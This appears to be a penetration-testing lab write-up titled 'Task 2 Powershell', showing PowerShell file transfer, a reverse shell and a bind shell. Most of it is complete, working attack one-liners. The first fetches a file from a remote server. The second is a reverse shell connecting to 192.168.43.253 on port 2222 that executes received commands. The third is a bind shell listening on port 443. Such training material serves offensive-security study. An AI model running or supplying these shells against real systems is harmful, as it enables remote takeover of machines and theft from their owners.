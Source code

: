 # Task 2 Powershell

### **Powershell File Transfers**

* Create a file to be transfered

![](/assets/1_powershell.jpg)

* Start python server

![](/assets/2_powershell.jpg)

* Run below command

```text
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```

![](assets/3_powershell.jpg)

### Powershell Reverse Shell

* Run the listener

![](assets/1_powershell_reverse_shell.jpg)

* Run the command in cmd

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.43.253',2222);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](assets/2_powershell_reverse_shell.jpg)

* We get the shell

![](assets/3_powershell_reverse_shell.jpg)

### Powershell Bind shell

![](assets/1_bind_shell_powershell.jpg)

```text
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

![](assets/2_bind_shell_powershell.jpg)

